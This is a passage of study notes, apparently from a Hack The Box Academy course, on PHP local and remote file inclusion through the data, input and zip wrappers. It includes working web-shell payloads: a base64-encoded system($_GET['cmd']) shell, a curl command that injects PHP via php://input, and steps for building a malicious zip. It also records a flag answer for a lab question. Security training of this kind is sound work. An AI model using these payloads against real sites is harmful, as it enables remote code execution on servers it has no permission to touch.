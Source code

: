 `http://example.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id`

Input Wrapper
=============

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled. 
The following curl command sends a POST request with a system command and then includes it using php://input, which gets executed by the page.

`curl -s -X POST --data "<?php system('id'); ?>" "http://example.com/index.php?language=php://input"`

Zip Wrapper
===========

The zip wrapper can prove useful in combination with file uploads. If the website allows uploading arbitrary files, an attacker can upload a malicious zip 
file and include PHP code. This wrapper isn't enabled by default and can be installed with the command below:

`apt install phpX.Y-zip`

***X.Y is the php version*** 

Follow the steps below to create a malicious archive.
```
1. echo '<?php system($_GET['cmd']); ?>' > exec.php

2. zip malicious.zip exec.php

3. rm exec.php
```
Next, copy malicious.zip to the webroot to simulate the upload. The files in the zip archive can be referenced using the `#` symbol, which should be URL-encoded 
in the request. For example, the URL below can be used to include exec.php and then execute code using the cmd parameter.

`http://example.com/index.php?language=zip://maliciouse.zip%23exec.php&cmd=id`

in the example above `#` is encoded to `%23` to prevent the browser from recognizing it as a fragment.

### HTB Academy Questions

1. Gain command execution using one of the PHP wrappers discussed in this section. Submit the contents of the flag.txt file located in the /secrets directory.
A. 62eb4f8836329caec43389971b683ec8

Remote File Inclusion
=====================

As the name suggests, Remote File Inclusion or RFI occurs when a website allows the inclusion of remotely hosted files. The impact of this vulnerability can be low or
high, depending on the server's configuration.

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on 
port 8080 on localhost and then pass a URL to it through the language parameter.
